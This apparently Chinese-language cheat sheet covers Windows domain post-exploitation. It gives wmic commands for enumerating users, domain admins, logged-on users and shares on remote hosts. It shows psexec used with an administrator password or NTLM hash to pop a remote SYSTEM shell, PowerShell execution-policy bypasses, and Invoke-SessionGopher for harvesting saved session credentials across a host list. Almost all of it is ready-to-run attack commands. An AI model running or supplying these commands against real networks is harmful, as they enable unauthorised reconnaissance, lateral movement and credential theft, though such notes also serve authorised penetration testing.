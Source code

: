 查询当前机器的用户及组信息
```
# wmic useraccount list brief /format:list
# wmic group list brief /format:list  
```

查询当前机器所有用户的详细信息
```
# wmic useraccount list brief
```

查询当前机器所有服务的详细状态
```
# wmic service list brief
```

 查询指定域的域管有哪些
```
# wmic /node:rootkit path win32_groupuser where (groupcomponent="win32_group.name=\"adm\",domain=\"rootkit\"")
```

查看谁登陆过指定机器,适合用来找域管进程
```
# wmic /node:192.168.3.23 path win32_loggedonuser get antecedent
```

查询本机共享
```
# wmic share  get name,path,status
```

### \#0x03 使用pstools套件
```
# psexec /accepteula \\192.168.3.122 -u klionsec\administrator -p "admin!@#123" -s -c -f "cmd.exe"	弹回一个system权限的cmdshell
# psexec /accepteula \\192.168.3.23 -u klionsec\administrator -p lm:ntlm -s -c -f "cmd.exe"		适合03以下的系统 
```

### \#0x04 powershell相关

cmd命令行打开powershell脚本执行限制：
```
PowerShell -NoProfile -ExecutionPolicy Bypass -Command "& {Start-Process PowerShell -ArgumentList 'Set-ExecutionPolicy RemoteSigned -Force' -Verb RunAs}"
```

cmd命令行执行ps1文件（ps1文件中没有函数）：
```
powershell -file test.ps1
powershell -ExecutionPolicy Bypass -file test.ps1 
```

cmd命令行执行ps1文件中的函数（ps1文件中包含函数,session.ps1文件中的Invoke-SessionGopher函数）：
```
powershell -command "& { . "path\to\file.ps1"; function_name "参数1" "参数2" "参数3"}"
```
example:
```
powershell -command "& { . ".\session.ps1"; Invoke-SessionGopher "-iL host.txt" "-u domainname\username" "-p password"}"
```
